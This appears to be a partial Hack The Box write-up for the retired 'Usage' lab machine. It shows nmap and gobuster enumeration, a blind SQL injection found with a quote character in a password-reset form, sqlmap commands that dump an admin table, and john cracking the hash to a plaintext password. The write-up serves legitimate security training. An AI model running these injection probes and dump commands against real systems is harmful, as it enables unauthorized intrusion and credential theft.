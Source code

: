 ## 🧠 HTB Machine: Usage (Retired) – Partial Writeup

**Difficulty:** Easy  

**Operating System:** Linux  

**Tech Stack:** Laravel, MySQL, Nginx  

**Focus Areas:** SQL Injection, Hash Cracking, Web Enumeration

⚠️ **Note:** This writeup covers only the initial foothold and partial exploitation. Root privilege escalation could not be completed due to machine instability.
---

## 🛰️ Reconnaissance

Initial `nmap` scan revealed:


- `22/tcp` – OpenSSH 8.9p1  

- `80/tcp` – nginx 1.18.0, redirecting to `usage.htb`

```bash

nmap -sC -sV -oA usage_scan 10.10.11.18

```

---
## 🌐 Web Enumeration

Visiting `http://usage.htb` revealed a Laravel-based login page.  

Cookie analysis (`laravel_session`, `XSRF-TOKEN`) confirmed Laravel backend.  

No useful error messages on failed login attempts.

---
## 🔍 Gobuster Scan

```bash

gobuster dir -u http://usage.htb -w /usr/share/wordlists/dirb/common.txt -x php,txt,html

```

- Server returned repeated `503 Service Unavailable` responses due to overload.  

- As per IppSec’s strategy, directory brute-force was halted and focus shifted to login functionality.

---

## 🔐 Vulnerability Discovery

### 📌 Blind SQL Injection in Forgot Password form

- Sending `'` as the email caused a `500 Internal Server Error`.

- Using `' --` suppressed the error, confirming boolean-based SQLi.

---

## 📦 SQLMap Usage


```bash

sqlmap -r reset_request.txt -p email --level 5 --risk 3 --technique=B --batch

```

✅ **Result:** Parameter `email` is vulnerable to **boolean-based blind SQLi**.  

**Backend:** MySQL ≥ 8.0, **Web server:** nginx, **OS:** Ubuntu

---

## 🧱 Database Extraction

```bash

sqlmap -r reset_request.txt -p email --dbs

```

🎯 Target DB: `usage_blog`

```bash

sqlmap -r reset_request.txt -p email -D usage_blog --tables

```

🗂️ Found tables: `admin_users`, `users`, `password_reset_tokens`, etc.

```bash

sqlmap -r reset_request.txt -p email -D usage_blog -T admin_users --dump

```

🧑‍💼 Extracted 1 user:

- **Username:** `admin`  

- **Password (bcrypt):** `$2y$10$ohq2kLpBH/ri.P5wR0P3UOmc24Ydvl9DA9H1S6ooOMgH5xVfUPrL2`

---

## 🔓 Password Cracking

Used `john` with the rockyou wordlist:

```bash

john admin_hash.txt --wordlist=/usr/share/wordlists/rockyou.txt

```

✅ Recovered password: **`whatever1`**

---
## ❗ Login Attempt Blocked

Despite correct credentials (`admin : whatever1`), login via `/login` did not succeed due to instability or backend issues.  

Tested across multiple browsers and sessions.

---
## ✅ Conclusion

This machine demonstrated a full web exploitation flow:

🔹 Web enum ➝  

🔹 Blind SQLi ➝  

🔹 DB extract ➝  

🔹 Password cracking
  
Although the final login step was unsuccessful, the credentials were confirmed and the attack chain is complete.

---
**Status:** ✅ Documented | 🚫 No root access | 🔐 Admin creds obtained | 🧠 Skills demonstrated
